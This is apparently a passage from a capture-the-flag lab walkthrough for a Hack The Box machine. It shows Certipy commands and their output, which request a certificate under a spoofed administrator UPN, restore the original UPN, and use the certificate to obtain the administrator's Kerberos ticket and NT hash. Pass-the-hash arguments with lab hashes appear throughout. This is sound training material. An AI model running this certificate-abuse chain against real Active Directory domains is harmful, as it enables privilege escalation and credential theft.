 ```sh
➜  certified certipy-ad req -username ca_operator@certified.htb -hashes :b4b86f45c6018f1b664f70805f45d8f2 -ca certified-DC01-CA -template CertifiedAuthentication -debug
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[+] Trying to resolve 'CERTIFIED.HTB' at '192.168.1.1'
[+] Resolved 'CERTIFIED.HTB' from cache: 10.10.11.41
[+] Generating RSA key
[*] Requesting certificate via RPC
[+] Trying to connect to endpoint: ncacn_np:10.10.11.41[\pipe\cert]
[+] Connected to endpoint: ncacn_np:10.10.11.41[\pipe\cert]
[*] Successfully requested certificate
[*] Request ID is 4
[*] Got certificate with UPN 'administrator'
[*] Certificate has no object SID
[*] Saved certificate and private key to 'administrator.pfx'
```
### Restoring Original UPN
```sh
➜  certified certipy-ad account update -username management_svc@certified.htb -hashes ':a091c1832bcdd4677c28b5a6a1295584' -user ca_operator -upn ca_operator@certified.htb
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Updating user 'ca_operator':
    userPrincipalName                   : ca_operator@certified.htb
[*] Successfully updated 'ca_operator'
```
### Obtaining Administrator TGT
```sh
➜  certified ntpdate -q 10.10.11.41
2025-03-13 05:49:28.253783 (-0400) +25260.690655 +/- 0.039840 10.10.11.41 s1 no-leap
➜  certified faketime '2025-03-13 05:49:28' certipy-ad auth -pfx administrator.pfx -domain certified.htb
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Using principal: administrator@certified.htb
[*] Trying to get TGT...
[*] Got TGT
[*] Saved credential cache to 'administrator.ccache'
[*] Trying to retrieve NT hash for 'administrator'
[*] Got hash for 'administrator@certified.htb': aad3b435b51404eeaad3b435b51404ee:0d5b49608bbce1751f708748f67e2d34
```
